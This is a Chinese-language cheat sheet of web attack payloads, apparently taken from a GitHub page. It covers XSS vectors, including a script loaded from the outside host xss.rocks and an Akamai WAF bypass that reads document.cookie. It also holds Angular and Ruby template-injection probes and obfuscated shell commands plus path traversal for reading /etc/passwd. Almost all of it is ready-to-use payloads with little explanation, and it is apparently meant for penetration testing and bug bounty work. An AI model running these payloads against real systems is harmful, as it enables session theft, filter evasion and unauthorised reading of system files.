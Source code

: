 ```plain
#基本要点与首选
<script>alert(1)</script>
<script>alert(1)//
<script src="http://xss.rocks/xss.js"></script>
<img src/onerror=alert(1)>
<a href="javascript:alert(1)"></a>

#XSS 策略：
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

#Akamai WAF 绕过：
<!--><svg+onload=%27top[%2fal%2f%2esource%2b%2fert%2f%2esource](document.cookie)%27>

#注入 XSS 或注入其他 html 标签形成新的登录页面：
https://saajanbhujel.medium.com/how-i-got-10-000-from-github-for-bypassing-filtration-of-html-tags-db31173c8b37

# XSS 执行 SSRF:
<script>window.location="http://endereço.."</script>

#其它：
<IMG SRC=javascript:alert('XSS')>

#jQuery 版本：
alert(jQuery.fn.jquery);
```

## Angular 模版注入

```plain
{{constructor.constructor('alert(1)')()}}
{{constructor.constructor('alert(/XSS Stored!/)')()}}
1023+1 ou {{1023+1}}
```

## Ruby 模版注入

```plain
<%= 7*7 %>
```

## 读取 /etc/passwd

```plain
cat$IFS$9${PWD%%[a-z]*}e*c${PWD%%[a-z]*}p?ss??
??n/??t$IFS/?tc/????wd
??n${PATH%%[a-z]*}??t$IFS${PATH%%[a-z]*}??c${PATH%%u*}?????d
../../../../../../../../../../../../etc/passwd

Explantion:
$'\x41' => 'A' (HEX)
$'\U41' => 'A'  (HEX Unicode)
$'\101' => 'A' (Octal)
```
